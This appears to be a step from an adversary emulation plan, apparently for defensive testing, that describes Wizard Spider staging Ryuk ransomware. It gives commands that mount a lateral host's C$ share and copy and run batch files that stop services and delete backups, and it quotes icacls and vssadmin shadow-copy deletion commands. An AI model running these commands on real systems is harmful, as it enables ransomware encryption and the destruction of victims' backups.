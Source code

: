 :microphone: `Voice Track:`

In step 9, Wizard Spider prepares to deploy an executable based on the Ryuk ransomware.

At the beginning of this step, Wizard Spider mounts the C$ share of a lateral host, toto / 10.0.0.8.

Files on Toto will be encrypted in the next step.

Next, Wizard Spider uploads two files to disk: kill.bat and window.bat.

These files are used to stop specific services and delete backups prior to encrypting the system.

---

### :biohazard: Procedures

Mount share so Ryuk can encrypt lateral drives:

```bash
net use Z: \\10.0.0.8\C$
```

```bash
# Ryuk has called kill.bat for stopping services, disabling services and killing processes.[1]

# Ryuk can launch icacls /grant Everyone:F /T /C /Q to delete every access-based restrictions on files and directories.[4]

# Ryuk has stopped services related to anti-virus.[2]
```

```
copy \\TSCLIENT\X\kill.bat C:\Users\Public\kill.bat

C:\Users\Public\kill.bat
```
[Source Code](../../Resources/Ryuk/bin/kill.bat)

```bash
# Ryuk has used vssadmin Delete Shadows /all /quiet to to delete volume shadow copies and vssadmin resize shadowstorage to force deletion of shadow copies created by third-party applications.[1]
```

```
copy \\TSCLIENT\X\window.bat C:\Users\Public\window.bat

C:\Users\Public\window.bat
```
[Source Code](../../Resources/Ryuk/bin/window.bat)

### :microscope: Cited Intelligence

* https://www.crowdstrike.com/blog/big-game-hunting-with-ryuk-another-lucrative-targeted-ransomware/
* https://www.fireeye.com/blog/threat-research/2019/01/a-nasty-trick-from-credential-theft-malware-to-business-disruption.html
* https://www.cert.ssi.gouv.fr/uploads/CERTFR-2021-CTI-006.pdf
